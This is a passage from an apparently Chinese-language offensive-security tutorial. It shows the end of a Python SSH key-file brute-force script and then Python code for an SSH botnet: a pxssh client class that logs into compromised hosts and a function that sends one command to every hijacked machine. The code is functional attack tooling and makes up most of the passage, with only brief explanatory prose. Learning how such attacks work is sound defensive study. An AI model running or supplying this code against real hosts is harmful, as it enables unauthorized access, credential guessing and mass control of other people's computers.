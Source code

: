 ```python
        print(parser.usage)
        exit(0)

    for filename in os.listdir(passDir):
        if stop:
            print('[*] Exiting: Key Found.')
            exit(0)
        if fails > 5:
            print('[!] Exiting: Too Many Connections Closed By Remote Host.')
            print('[!] Adjust number of simultaneous threads.')
            exit(0)
        connectionlock.acquire()
        fullpath = os.path.join(passDir, filename)
        print('[-] Testing keyfile ' + str(fullpath))
        t = Thread(target=connect, args=(user, host, fullpath, True))
        child = t.start()


if __name__ == '__main__':
    main()
```

### 构建SSH僵尸网络

我们已经能通过SSH控制主机，接下来让我们继续同时控制多台主机。
攻击者在达成恶意目的时，通常会使用被黑掉的计算机群。
我们称之为僵尸网络，因为被黑掉的电脑会像僵尸一样执行指令。

在僵尸网络中，每个单独的僵尸或client都需要有能连上某台肉机，并发命令发送给肉机的能力。

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pexpect import pxssh


class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()

    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print('[-] error connecting')

    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before


def botnetCommand(command):
    for client in botNet:
        output = client.send_command(command)
        print('[*] Output from ' + client.host)
        print('[+] ' + output)

```